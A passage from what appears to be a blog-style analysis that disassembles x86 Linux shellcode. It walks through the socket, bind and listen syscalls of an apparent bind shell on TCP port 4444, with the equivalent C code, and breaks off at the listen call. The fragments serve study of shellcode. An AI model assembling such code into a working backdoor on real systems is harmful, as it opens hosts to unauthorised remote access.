 This means, _"please, open us an IPv4 socket, using the TCP protocol that
provides a sequenced, reliable, two-way,  connection-based byte  streams and
for the protocol, please use the default one"_.

### The second syscall

The second system call invocation is:

{%highlight asm%}
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
{%endhighlight%}

Again this is a socketcall() invocation, because of a value of 0x66 in EAX register.
EBX is set to 2, since it's the first value popped out form stack. We're than
binding to a given port on a file descriptor, opened by socket(2) and stored in
EDX register we save in the beginning on the stack.

We push a double word on the stack, 0x5c110002 that it can be splitted in two separated words:

* 0x5c11 that it is 4444 in decimal, the TCP port we have to bind to
* 0x2 that it is the AF_INET constant, used as af_inet

The 0x10 is than 16 bytes, the lenght of struct sockaddr_in data structure.

Calling the INT 0x80, we're executing the following piece of C code:

{% highlight c %}
my_addr.sin_family      = AF_INET;
my_addr.sin_port        = htons(4444);
my_addr.sin_addr.s_addr = INADDR_ANY;

bind(sfd, (struct sockaddr *) &my_addr, sizeof(my_addr));
{% endhighlight %}

### The third syscall

The third call is pretty easy to understand. The EBX register is set to 4, that
is the code for listen(2).

{%highlight asm%}
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
{%endhighlight%}
